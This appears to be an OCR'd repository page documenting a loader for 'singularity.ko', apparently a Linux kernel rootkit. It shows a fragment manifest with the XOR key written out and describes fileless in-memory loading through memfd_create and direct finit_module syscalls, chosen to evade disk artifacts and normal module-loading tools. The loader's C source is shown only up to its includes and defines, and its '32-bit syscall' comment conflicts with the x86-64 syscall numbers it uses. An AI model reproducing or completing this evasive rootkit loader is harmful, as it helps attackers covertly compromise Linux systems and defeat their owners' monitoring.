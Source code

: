 ```json
{
  "original_filename": "singularity.ko",
  "original_size": 245632,
  "num_fragments": 4,
  "chunk_size": 65536,
  "encoded": true,
  "xor_key": "a3f5b2c8e1d4f7a6b9c2e5f8a1d4b7c0",
  "checksums": [
    "e3b0c44298fc1c149afbf4c8996fb92427ae41e4649b934ca495991b7852b855",
    "cf83e1357eefb8bdf1542850d66d8007d620e4050b5715dc83f4a921d36ce9ce",
    "2c26b46b68ffc68ff99b453c1d30413413422d706483bfa0f98a5e886266e7ae",
    "fcde2b2edba56bf408601fb721fe9b5c338d10ee429ea04fae5511b68fbf8fb9"
  ]
}
```

#### Custom Loader via memfd_create

Instead of using insmod or modprobe, we implement a custom loader that:

- Reads encrypted fragments from disk
- Decodes them in memory
- Creates an anonymous memory file descriptor
- Writes the reconstructed module to the memory FD
- Loads the module via direct syscall

#### Loader Architecture

```c
/*
 * Singularity Loader
 * 
 * 1. Uses 32-bit syscall (finit_module) via inline assembly
 * 2. Reconstructs .ko from fragments in memory
 * 3. Decodes XOR encoding
 * 4. Uses memfd_create to avoid disk
 * 5. Direct syscall to avoid libc wrapper
 * 
 * Compile: gcc -o loader loader.c -static
 * Usage: ./loader fragments/
 */

#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/syscall.h>
#include <sys/stat.h>
#include <errno.h>
#include <dirent.h>
#include <stdint.h>

// Syscall numbers
#define __NR_finit_module   313
#define __NR_memfd_create   319

// Settings
#define MAX_FRAGMENTS       256
#define MAX_CHUNK_SIZE      (1024 * 1024)  // 1MB
#define XOR_KEY_SIZE        16
#define MODULE_FLAGS        0
```
